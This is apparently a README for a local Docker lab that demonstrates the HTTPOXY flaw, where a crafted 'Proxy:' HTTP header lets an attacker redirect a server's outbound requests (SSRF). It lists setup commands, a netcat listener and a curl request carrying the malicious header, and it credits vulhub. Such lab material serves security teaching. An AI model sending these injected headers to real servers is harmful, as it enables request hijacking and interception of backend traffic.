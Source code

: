 # HTTPOXY
## Injection of environment variable via "Proxy:" HTTP Header
### Can lead to SSRF

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run the lab:
```
cd 1-httpoxy
docker-compose up -d
```

### On another terminal windows run:
```
nc -lvp 9999
curl -H "Proxy: [Your IP]:9999" http://[Your IP]:8080/index.php 
```


### Explanation
HTTP Server will interpret Proxy: header value and try to connect to it. This can lead to SSRF.

### References and recommended reading
https://httpoxy.org/

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/cgi/httpoxy

